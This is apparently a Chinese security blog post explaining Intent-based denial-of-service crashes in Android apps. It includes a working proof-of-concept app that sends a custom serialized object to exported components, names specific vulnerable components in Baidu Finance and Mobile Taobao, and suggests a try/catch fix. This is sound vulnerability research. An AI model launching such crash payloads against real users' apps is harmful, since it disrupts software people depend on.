





Author：wnagzihxa1n
Mail：wnagzihxa1n@gmail.com
先来看看什么是拒绝服务
随便从手机应用商店里找到一个应用安装，然后花三五分钟找一个拒绝服务（这种拒绝服务很好找，看完后面的分析，就会知道为什么好找）
运行一下Poc，崩溃了

如标题所说，我们在这里讨论的是Intent引起的拒绝服务，搞过安卓开发的同学对Intent都不陌生，比如我们要跳转到另一个Activity，那么就需要使用Intent，当然如果需要向下一个Activity传数据，Intent也有设置数据的方法
首先我们现在有两个Activity，一个是Activity1，Activity2，最简单的就是从一个Activity跳转到另一个Activity
第一个Activity
public class Activity1 extends Activity {
@Override
protected void onCreate(@Nullable Bundle savedInstanceState) {
super.onCreate(savedInstanceState);
setContentView(R.layout.activity_activity1);
Intent intent = new Intent(Activity1.this, Activity2.class);
startActivity(intent);
}
}
第二个Activity
public class Activity2 extends Activity {
@Override
protected void onCreate(@Nullable Bundle savedInstanceState) {
super.onCreate(savedInstanceState);
setContentView(R.layout.activity_activity2);
}
}
有时候我们需要向下一个Activity传数据，运行起来弹出str1 = I am str1
Activity1
public class Activity1 extends Activity {
@Override
protected void onCreate(@Nullable Bundle savedInstanceState) {
super.onCreate(savedInstanceState);
setContentView(R.layout.activity_main);
Intent intent = new Intent(Activity1.this, Activity2.class);
intent.putExtra("str1", "I am str1");
startActivity(intent);
}
}
Activity2
public class Activity2 extends Activity {
@Override
protected void onCreate(@Nullable Bundle savedInstanceState) {
super.onCreate(savedInstanceState);
setContentView(R.layout.activity_activity2);
Intent intent = getIntent();
String str1 = intent.getStringExtra("str1");
Toast.makeText(this, "str1 = " + str1, Toast.LENGTH_SHORT).show();
}
}
问题来了，如果我们传入一个空的intent？
Activity1
public class Activity1 extends Activity {
@Override
protected void onCreate(@Nullable Bundle savedInstanceState) {
super.onCreate(savedInstanceState);
setContentView(R.layout.activity_main);
Intent intent = new Intent(Activity1.this, Activity2.class);
// intent.putExtra("str1", "I am str1");
startActivity(intent);
}
}
会发现弹出str1 = null
所以，如果我们直接使用这个获取的值做操作，注意str1.equals()这个函数的调用
public class Activity2 extends Activity {
@Override
protected void onCreate(@Nullable Bundle savedInstanceState) {
super.onCreate(savedInstanceState);
setContentView(R.layout.activity_activity2);
Intent intent = getIntent();
String str1 = intent.getStringExtra("str1");
if (str1.equals("I am str1")) {
Toast.makeText(this, str1, Toast.LENGTH_SHORT).show();
}
}
}
此时我们的str1为空，所以直接去调用方法会报空指针异常，崩溃如下
09-14 18:33:50.020 8438-8438/? E/AndroidRuntime: FATAL EXCEPTION: main
Process: com.wnagzihxa1n.apkdemo, PID: 8438
java.lang.RuntimeException: Unable to start activity ComponentInfo{com.wnagzihxa1n.apkdemo/com.wnagzihxa1n.apkdemo.Activity2}: java.lang.NullPointerException: Attempt to invoke virtual method 'boolean java.lang.String.equals(java.lang.Object)' on a null object reference
at android.app.ActivityThread.performLaunchActivity(ActivityThread.java:2824)
at android.app.ActivityThread.handleLaunchActivity(ActivityThread.java:2909)
at android.app.ActivityThread.-wrap11(Unknown Source:0)
at android.app.ActivityThread$H.handleMessage(ActivityThread.java:1610)
at android.os.Handler.dispatchMessage(Handler.java:106)
at android.os.Looper.loop(Looper.java:164)
at android.app.ActivityThread.main(ActivityThread.java:6608)
at java.lang.reflect.Method.invoke(Native Method)
at com.android.internal.os.RuntimeInit$MethodAndArgsCaller.run(RuntimeInit.java:453)
at com.android.internal.os.ZygoteInit.main(ZygoteInit.java:821)
Caused by: java.lang.NullPointerException: Attempt to invoke virtual method 'boolean java.lang.String.equals(java.lang.Object)' on a null object reference
at com.wnagzihxa1n.apkdemo.Activity2.onCreate(Activity2.java:16)
at android.app.Activity.performCreate(Activity.java:7053)
at android.app.Activity.performCreate(Activity.java:7044)
at android.app.Instrumentation.callActivityOnCreate(Instrumentation.java:1215)
at android.app.ActivityThread.performLaunchActivity(ActivityThread.java:2777)
at android.app.ActivityThread.handleLaunchActivity(ActivityThread.java:2909)
at android.app.ActivityThread.-wrap11(Unknown Source:0)
at android.app.ActivityThread$H.handleMessage(ActivityThread.java:1610)
at android.os.Handler.dispatchMessage(Handler.java:106)
at android.os.Looper.loop(Looper.java:164)
at android.app.ActivityThread.main(ActivityThread.java:6608)
at java.lang.reflect.Method.invoke(Native Method)
at com.android.internal.os.RuntimeInit$MethodAndArgsCaller.run(RuntimeInit.java:453)
at com.android.internal.os.ZygoteInit.main(ZygoteInit.java:821)
好了，到这里我们已经掌握Intent拒绝服务最基础的知识：并不是获取intent里面的数据的时候没有使用try/catch就会崩溃，而是获取到的变量为空，再去使用这个空变量的时候未使用try/catch会导致空指针崩溃
现在业界已经少有这种明显的Intent拒绝服务了
但是技术总是会进步的，我们来看Intent的任意一个获取数据的方法是如何解析的
public String getStringExtra(String name) {
return mExtras == null ? null : mExtras.getString(name);
}
mExtras从定义上来看是一个Bundle类型的变量，所以找到Bundle的定义，然而我们是找不到getString()的，观察到Bundle继承自类BaseBundle
public final class Bundle extends BaseBundle implements Cloneable, Parcelable {
所以我们跟入类BaseBundle查看，第一句就是unparcel()，意思是反序列化
@Nullable
public String getString(@Nullable String key) {
unparcel();
final Object o = mMap.get(key);
try {
return (String) o;
} catch (ClassCastException e) {
typeWarning(key, o, "String", e);
return null;
}
}
跟入该函数，此处进行反序列化数据的操作，我们注意到readArrayMapInternal()这个函数
/* package */ synchronized void unparcel() {
if (mParcelledData == null) {
if (DEBUG) Log.d(TAG, "unparcel " + Integer.toHexString(System.identityHashCode(this))
+ ": no parcelled data");
return;
}
if (mParcelledData == EMPTY_PARCEL) {
if (DEBUG) Log.d(TAG, "unparcel " + Integer.toHexString(System.identityHashCode(this))
+ ": empty");
if (mMap == null) {
mMap = new ArrayMap<String, Object>(1);
} else {
mMap.erase();
}
mParcelledData = null;
return;
}
int N = mParcelledData.readInt();
if (DEBUG) Log.d(TAG, "unparcel " + Integer.toHexString(System.identityHashCode(this))
+ ": reading " + N + " maps");
if (N < 0) {
return;
}
if (mMap == null) {
mMap = new ArrayMap<String, Object>(N);
} else {
mMap.erase();
mMap.ensureCapacity(N);
}
mParcelledData.readArrayMapInternal(mMap, N, mClassLoader);
mParcelledData.recycle();
mParcelledData = null;
if (DEBUG) Log.d(TAG, "unparcel " + Integer.toHexString(System.identityHashCode(this))
+ " final map: " + mMap);
}
跟入readArrayMapInternal()，看while循环里的readValue()，这里传入了类加载器并且返回了一个value对象，这里就是循环获取反序列化后数据的地方
/* package */ void readArrayMapInternal(ArrayMap outVal, int N,
ClassLoader loader) {
if (DEBUG_ARRAY_MAP) {
RuntimeException here = new RuntimeException("here");
here.fillInStackTrace();
Log.d(TAG, "Reading " + N + " ArrayMap entries", here);
}
int startPos;
while (N > 0) {
if (DEBUG_ARRAY_MAP) startPos = dataPosition();
String key = readString();
Object value = readValue(loader);
if (DEBUG_ARRAY_MAP) Log.d(TAG, " Read #" + (N-1) + " "
+ (dataPosition()-startPos) + " bytes: key=0x"
+ Integer.toHexString((key != null ? key.hashCode() : 0)) + " " + key);
outVal.append(key, value);
N--;
}
outVal.validate();
}
跟入readValue()，函数过长我省略了部分，重点关注readSerializable()
public final Object readValue(ClassLoader loader) {
int type = readInt();
switch (type) {
case VAL_NULL:
return null;
case VAL_STRING:
return readString();
case VAL_INTEGER:
return readInt();
......
case VAL_SERIALIZABLE:
return readSerializable(loader);
......
default:
int off = dataPosition() - 4;
throw new RuntimeException(
"Parcel " + this + ": Unmarshalling unknown type code " + type + " at offset " + off);
}
}
跟入，当找不到反序列化后的类时，系统就会抛出异常，如果这时应用没有使用try/catch捕获ClassNotFound异常，就会崩溃
private final Serializable readSerializable(final ClassLoader loader) {
String name = readString();
if (name == null) {
// For some reason we were unable to read the name of the Serializable (either there
// is nothing left in the Parcel to read, or the next value wasn't a String), so
// return null, which indicates that the name wasn't found in the parcel.
return null;
}
byte[] serializedData = createByteArray();
ByteArrayInputStream bais = new ByteArrayInputStream(serializedData);
try {
ObjectInputStream ois = new ObjectInputStream(bais) {
@Override
protected Class<?> resolveClass(ObjectStreamClass osClass)
throws IOException, ClassNotFoundException {
// try the custom classloader if provided
if (loader != null) {
Class<?> c = Class.forName(osClass.getName(), false, loader);
if (c != null) {
return c;
}
}
return super.resolveClass(osClass);
}
};
return (Serializable) ois.readObject();
} catch (IOException ioe) {
throw new RuntimeException("Parcelable encountered " +
"IOException reading a Serializable object (name = " + name +
")", ioe);
} catch (ClassNotFoundException cnfe) {
throw new RuntimeException("Parcelable encountered " +
"ClassNotFoundException reading a Serializable object (name = "
+ name + ")", cnfe);
}
}
我们一开始讲的Intent直接获取数据是不会导致崩溃的，但是有个前提，传入的数据类型，目标应用都有，当我们调用目标应用的一个Activity，传入一个序列化后的自定义类，Intent在获取其中数据的时候，就会先对数据进行反序列化操作，问题就出在这个反序列化数据的过程中
我们来搜索下有多少这样的获取数据的操作，统计部分列一下
public Object getExtra(String name) {
public boolean getBooleanExtra(String name, boolean defaultValue) {
public byte getByteExtra(String name, byte defaultValue) {
public short getShortExtra(String name, short defaultValue) {
public char getCharExtra(String name, char defaultValue) {
public int getIntExtra(String name, int defaultValue) {
public long getLongExtra(String name, long defaultValue) {
public float getFloatExtra(String name, float defaultValue) {
public double getDoubleExtra(String name, double defaultValue) {
public String getStringExtra(String name) {
......
理论分析完了，我们来看一个实例
从百度商店下载最新版的百度理财APP，版本是V5.0.4
我们先构造一下Poc，这个Poc的作用就是手动调用百度理财一个导出的组件，并传入一个序列化后的类，该类在百度理财里面未加载
package com.wnagzihxa1n.apkdemo;
import android.app.Activity;
import android.content.ComponentName;
import android.content.Intent;
import android.os.Bundle;
public class MainActivity extends Activity {
private static final String TAG = "MainActivity";
@Override
protected void onCreate(Bundle savedInstanceState) {
super.onCreate(savedInstanceState);
setContentView(R.layout.activity_main);
try {
Intent intent = new Intent();
intent.setComponent(new ComponentName("com.baidu.finance",
"com.baidu.wallet.remotepay.RemotePayEnterActivity"));
intent.putExtra("serializable_key", new DataSchema());
startActivity(intent);
} catch (Exception e) {
e.printStackTrace();
}
}
}
再新建一个类
package com.wnagzihxa1n.apkdemo;
import java.io.Serializable;
public class DataSchema implements Serializable {
private static final long serialVersionUID = -3601187837704976264L;
}
测这种漏洞，最好是先把目标应用跑起来，正常跑起来且正常使用是最好的，比如有登录的就登陆一下，然后回到桌面，启动我们的Poc
捕获到崩溃日志如下，看这种崩溃日志是由技巧的：首先入口一般来说，都是我们调用的组件的onCreate()函数，然后往上回溯即可，像这里就是在RemotePayEnterActivity.onCreate()里面调用了RemotePayEnterActivity.getBundleData()，然后RemotePayEnterActivity.getBundleData()里面调用了Intent.getBundleExtra()，这里开始就是系统的事情了，很明显的，这里没有使用try/catch来捕获ClassNotFound的异常，导致崩溃
我们反编译找到其源码实现，如红框所示，调用getBundleData(getIntent())

跟入该函数，在getBundleExtra()内多处获取Intent数据未使用try/catch

关于修复建议：任何获取Intent数据的操作，都要用try/catch
一家人就是要整整齐齐，下面这些组件都存在上面反序列化Intent数据过程的ClassNotFound异常崩溃
com.baidu.sapi2.activity.ShareActivity
com.baidu.finance.module.investment.hottopic.view.HotTopicAvtivity
com.baidu.finance.module.investment.fundranking.FundRankingActivity
com.baidu.finance.wxapi.WXEntryActivity
com.baidu.finance.module.investment.fundsearch.InvestmentFundSearchActivity
com.baidu.finance.share.activity.SendSMSActivity
com.baidu.wallet.lightapp.business.LightappBrowseActivity
com.baidu.finance.share.activity.QQShareActivity
com.baidu.finance.share.activity.QzoneShareActivity
com.baidu.finance.share.activity.WeiboShareActivity
阿里也有，我们下载最新的手机淘宝V7.11.20
找到com.taobao.gcanvas.runtime.activity.GNativeActivity，修改下Poc，打一下这个Activity，妥妥的崩了，按照我上面分析的方法，还是很容易找出整条调用链的，即使这个Activity并不能直接静态找到

手淘还有这些导出组件也存在问题
com.ali.user.mobile.register.ui.AliUserRegisterChoiceRegionActivity
有时候新系统出来往往伴随着意想不到的新特性，也伴随着意想不到的大坑
你能想到正常逻辑下一个Activity调用finish()的时候会崩溃吗？
我们来看8.1.0的finish()源码
public void finish() {
finish(DONT_FINISH_TASK_WITH_ACTIVITY);
}
跟入，通读一下这段代码，有没有发现哪里不对？最后的mIntent调用了hasExtra()
private void finish(int finishTask) {
if (mParent == null) {
int resultCode;
Intent resultData;
synchronized (this) {
resultCode = mResultCode;
resultData = mResultData;
}
if (false) Log.v(TAG, "Finishing self: token=" + mToken);
try {
if (resultData != null) {
resultData.prepareToLeaveProcess(this);
}
if (ActivityManager.getService()
.finishActivity(mToken, resultCode, resultData, finishTask)) {
mFinished = true;
}
} catch (RemoteException e) {
// Empty
}
} else {
mParent.finishFromChild(this);
}
// Activity was launched when user tapped a link in the Autofill Save UI - Save UI must
// be restored now.
if (mIntent != null && mIntent.hasExtra(AutofillManager.EXTRA_RESTORE_SESSION_TOKEN)) {
getAutofillManager().onPendingSaveUi(AutofillManager.PENDING_UI_OPERATION_RESTORE,
mIntent.getIBinderExtra(AutofillManager.EXTRA_RESTORE_SESSION_TOKEN));
}
}
不过这个系统的问题最多也就是个bug，开发的同学注意有这个坑就行
还是拿手淘举例，看手淘下面这个Activity
com.taobao.android.gmlab.projects.weex.WeexUIActivity
修改Poc运行一下，崩溃了，注意看两个finish()的调用

还有一种我觉得是比较弱智的空指针拒绝服务，别说，还真多
继续手淘
com.taobao.message.lifecircle.ui.activity.DecoratePhoneActivity
我们把Poc跑起来，观察到直接就崩溃了

我不管，一家人就是要整整齐齐
com.taobao.tbhudong.musicfaceplay.ui.MusicFacePlayActivity
手淘还有另外两种拒绝服务
正则相关
com.taobao.tao.rushpromotion.luaview.activity.LuaOrH5RouterActivity
崩溃日志

URI相关
com.taobao.windmill.bundle.WMLActivity
崩溃日志

整整齐齐，开开心心